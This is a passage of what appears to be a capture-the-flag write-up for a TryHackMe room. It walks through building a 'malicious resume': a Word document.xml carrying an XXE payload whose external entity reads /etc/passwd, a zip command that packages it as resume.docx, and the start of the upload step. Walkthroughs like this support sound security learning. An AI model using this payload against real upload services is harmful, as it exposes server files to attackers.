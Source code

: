 ```bash
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&test;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
```

Now you can save this file and then exit this `word` directory and then execute this command. 

```bash
zip resume.docx word/document.xml
```

And now your malicious resume is ready!

## 2- Upload Resume and Config

Now you have to select the resume and then hit upload,  you will see this. 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/Empline/Images/Untitled%208.png)
